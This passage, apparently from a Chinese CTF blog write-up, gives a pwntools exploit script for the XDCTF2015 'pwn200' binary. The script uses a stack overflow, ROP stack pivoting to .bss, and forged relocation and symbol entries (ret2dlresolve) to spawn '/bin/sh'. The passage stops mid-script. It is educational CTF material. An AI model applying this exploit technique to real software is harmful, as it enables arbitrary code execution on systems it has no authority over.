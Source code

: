 &emsp;&emsp;<font size=2>RNote4的exp就不放出来了，原理是一样的。在经典的栈溢出题型里没法写到`.dynamic`，要完成利用就需要我们伪造很多东西，文章底部有一个链接很好的一步一步讲解如何手工构造ret2dlresolve，我这里就不重复说了，犯懒了，直接贴上手工构造的脚本吧：</font></br>

```python
#!python
from pwn import *

offset = 112

addr_plt_read  = 0x08048390   # objdump -d -j.plt bof | grep "read"
addr_plt_write = 0x080483c0   # objdump -d -j.plt bof | grep "write"

#./rp-lin-x86  --file=bof --rop=3 --unique > gadgets.txt
pppop_ret = 0x0804856c
pop_ebp_ret   =  0x08048453
leave_ret = 0x08048481

stack_size = 0x800
addr_bss   = 0x0804a020   # readelf -S bof | grep ".bss"
base_stage = addr_bss + stack_size

target = "./pwn200"
io   = process(target)

io.recvuntil('Welcome to XDCTF2015~!\n')
# io.gdb_hint([0x80484bd])

buf1  = 'A' * offset
buf1 += p32(addr_plt_read)
buf1 += p32(pppop_ret)
buf1 += p32(0)
buf1 += p32(base_stage)
buf1 += p32(100)
buf1 += p32(pop_ebp_ret)
buf1 += p32(base_stage)
buf1 += p32(leave_ret)
io.sendline(buf1)
#gdb.attach(io)

cmd = "/bin/sh"
addr_plt_start = 0x8048370 # objdump -d -j.plt bof
addr_rel_plt   = 0x8048318 # objdump -s -j.rel.plt a.out
index_offset   = (base_stage + 28) - addr_rel_plt
addr_got_write = 0x804a020
addr_dynsym    = 0x080481d8
addr_dynstr    = 0x08048268
addr_fake_sym  = base_stage + 36
align          = 0x10 - ((addr_fake_sym - addr_dynsym) & 0xf)
addr_fake_sym  = addr_fake_sym + align
index_dynsym   = (addr_fake_sym - addr_dynsym) / 0x10
r_info         = (index_dynsym << 8 ) | 0x7
fake_reloc     = p32(addr_got_write) + p32(r_info)
st_name        = (addr_fake_sym + 16) - addr_dynstr
fake_sym       = p32(st_name) + p32(0) + p32(0) + p32(0x12)

buf2 = 'AAAA'
buf2 += p32(addr_plt_start)
buf2 += p32(index_offset)
buf2 += 'AAAA'
buf2 += p32(base_stage+80)
buf2 += 'aaaa'
buf2 += 'aaaa'
buf2 += fake_reloc
buf2 += 'B' * align
```
